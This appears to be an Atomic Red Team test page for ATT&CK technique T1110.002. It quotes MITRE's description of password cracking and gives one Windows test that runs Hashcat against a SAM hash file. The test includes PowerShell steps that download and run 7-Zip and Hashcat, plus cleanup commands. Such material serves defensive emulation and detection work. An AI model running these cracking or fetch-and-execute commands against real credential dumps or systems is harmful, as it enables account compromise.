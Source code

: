# T1110.002 - Password Cracking
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1110/002)
<blockquote>Adversaries may use password cracking to attempt to recover usable credentials, such as plaintext passwords, when credential material such as password hashes are obtained. [OS Credential Dumping](https://attack.mitre.org/techniques/T1003) is used to obtain password hashes, this may only get an adversary so far when [Pass the Hash](https://attack.mitre.org/techniques/T1550/002) is not an option. Techniques to systematically guess the passwords used to compute hashes are available, or the adversary may use a pre-computed rainbow table to crack hashes. Cracking hashes is usually done on adversary-controlled systems outside of the target network.(Citation: Wikipedia Password cracking) The resulting plaintext password resulting from a successfully cracked hash may be used to log into systems, resources, and services in which the account has access.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Password Cracking with Hashcat](#atomic-test-1---password-cracking-with-hashcat)


<br/>

## Atomic Test #1 - Password Cracking with Hashcat
Execute Hashcat.exe with provided SAM file from registry of Windows and Password list to crack against

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| hashcat_exe | Path to Hashcat executable | String | %temp%&#92;hashcat6&#92;hashcat-6.1.1&#92;hashcat.exe|
| input_file_sam | Path to SAM file | string | PathToAtomicsFolder&#92;T1110.002&#92;src&#92;sam.txt|
| input_file_passwords | Path to password list | string | PathToAtomicsFolder&#92;T1110.002&#92;src&#92;password.lst|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
cd #{hashcat_exe}\..
#{hashcat_exe} -a 0 -m 1000 -r .\rules\Incisive-leetspeak.rule #{input_file_sam} #{input_file_passwords}
```

#### Cleanup Commands:
```cmd
del %temp%\hashcat6.7z >nul 2>&1
del %temp%\7z1900.exe >nul 2>&1
del %temp%\7z /Q /S >nul 2>&1
del %temp%\hashcat-unzip /Q /S >nul 2>&1
```



#### Dependencies:  Run with `powershell`!
##### Description: Hashcat must exist on disk at specified location (#{hashcat_exe})
##### Check Prereq Commands:
```powershell
if (Test-Path  $(cmd /c echo #{hashcat_exe})) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest "https://www.7-zip.org/a/7z1900.exe" -OutFile "$env:TEMP\7z1900.exe"
Start-Process -FilePath "$env:Temp\7z1900.exe" -ArgumentList "/S /D=$env:temp\7zi" -NoNewWindow
Invoke-WebRequest "https://hashcat.net/files/hashcat-6.1.1.7z" -OutFile "$env:TEMP\hashcat6.7z"
Start-Process cmd.exe -Args  "/c %temp%\7z\7z.exe x %temp%\hashcat6.7z -aoa -o%temp%\hashcat-unzip" -Wait
New-Item -ItemType Directory (Split-Path $(cmd /c echo #{hashcat_exe})) -Force | Out-Null
Move-Item $env:Temp\hashcat-unzip\hashcat-6.1.1\* $(cmd /c echo #{hashcat_exe}\..) -Force -ErrorAction Ignore
```




<br/>
